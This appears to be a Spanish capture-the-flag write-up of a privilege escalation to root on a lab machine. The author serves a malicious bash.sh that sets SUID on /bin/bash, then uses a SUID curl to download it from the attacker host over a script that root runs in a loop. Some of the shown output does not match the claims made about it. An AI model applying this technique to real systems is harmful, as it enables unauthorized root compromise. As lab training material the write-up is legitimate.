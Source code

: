 Tenemos un archivo **( bash.sh )** que esta siendo ejecutado por **root**
```bash
root           1  7.1  0.0   2800  1876 ?        Ss   20:35   6:59 /bin/sh -c service smbd start && service ssh start && while true; do /bin/bash /usr/local/bin/bash.sh; done
```

Revisando su contenido vemos que esta vacio, Asi que logramos escribir codigo en ese archivo, sera ejecutado como root:
Por lo que podemos asignar permisos **SUID** a la **bash** de **root**
Como no tenemos permiso de escritura no podemos escribira sobre el:
```bash
echo "hola" > /usr/local/bin/bash.sh
bash: /usr/local/bin/bash.sh: Permission denied
```

Sabiendo que tenemos el comando **curl** con privilegios **SUID** lo que aremos es primero nos creamos un archivo maliciso bajo el mismo nombre: **( bash.sh )** en nuestra maquina de atacante:
```bash
#!/usr/bin/bash 

chmod u+s /bin/bash
```

nos montamos un servidor con **python** para que este disponible desde nuestra maquina atacante:
```bash
python3 -m http.server
```

Ahora desde la maquina victima justo en la ruta: **( /usr/local/bin )** que es donde se encuentra el script con este comando lo estaremos descargando y sustituyendo al real por el nuestro maliciso:
```bash
curl -O http://172.17.0.1/bash.sh

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    38  100    38    0     0   9903      0 --:--:-- --:--:-- --:--:-- 12666UU
```

Listando los permisos de la **bash** ahora es **SUID**
```bash
rabol@66dba75cfb3b:/usr/local/bin$ ls /bin/bash
/bin/bash
```

Explotamos el binario:
```bash
# Comando para escalar al usuario: ( root )
bash -p
```
---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
-rw-r--r--  1 root root   33 Sep  2  2024 root.txt

bash-5.2# whoami
root
```

---